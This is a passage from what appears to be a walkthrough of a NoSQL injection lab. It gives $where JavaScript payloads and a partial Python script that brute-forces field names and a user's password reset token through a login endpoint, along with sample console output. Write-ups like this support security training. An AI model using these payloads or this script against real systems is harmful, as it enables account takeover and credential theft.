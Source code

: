 ```shell
[*] Sending payload: Object.keys(this)[3].match("^pwResetTkn.*")
[+] Found valid character "n" on field position 3
[-] Looped through all possible characters, no luck. Maybe we found all the characters?
[*] Field name: pwResetTkn
```

Nice! We extracted 3 fields: **`username`, `password`, and `pwResetTkn`.**

Hmm... **The `pwResetTkn` sounds like password reset token.**

**That being said, let's extract the password reset token for user `carlos`!**

**This time, we can use the field name and `match()` JavaScript function as our payload:**
```javascript
this.pwResetTkn[0].match('<character_here>.*')
```

**Or, we can use:**
```javascript
this.pwResetTkn[<character_index>] == '<character>'
```

If the character is correct, it'll response "Account locked: please reset your password". Otherwise response "Invalid username or password".

Since I used the first method in extracting field names, I'll try to use the second method.

**To do so, I'll modify the Python script:**
```python
import requests
from string import ascii_letters, digits

class Exploit:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.LOGIN_ENDPOINT = '/login'
        self.USERNAME = 'carlos'
        self.PASSWORD = {
            '$ne': 'foobar'
        }
        self.CHARACTER_SET = ascii_letters + digits
        self.LAST_CHARACTER = self.CHARACTER_SET[-1]

    def extractFieldNames(self, fieldPosition):
        fieldName = str()
        while True:
            for character in self.CHARACTER_SET:
                payload = f'^{fieldName}{character}.*' if fieldName else f'^{character}.*'
                whereOperatorKey = f'Object.keys(this)[{fieldPosition}].match("{payload}")'
                print(f'[*] Sending payload: {whereOperatorKey}', end='\r')

                loginData = {
                    'username': self.USERNAME,
                    'password': self.PASSWORD,
                    '$where': whereOperatorKey
                }
                loginRespond = requests.post(f'{self.baseUrl}{self.LOGIN_ENDPOINT}', json=loginData)
                isValidCharacter = False if 'Invalid username' in loginRespond.text else True
                isEmptyFieldName = True if len(fieldName) == 0 else False
                isLastCharacter = character == self.LAST_CHARACTER

                if not isValidCharacter and isLastCharacter and isEmptyFieldName:
                    print(f'[-] Looped through all possible characters, no luck. This field position {fieldPosition} doesn\'t have a field?')
                    return
                if not isValidCharacter and isLastCharacter:
```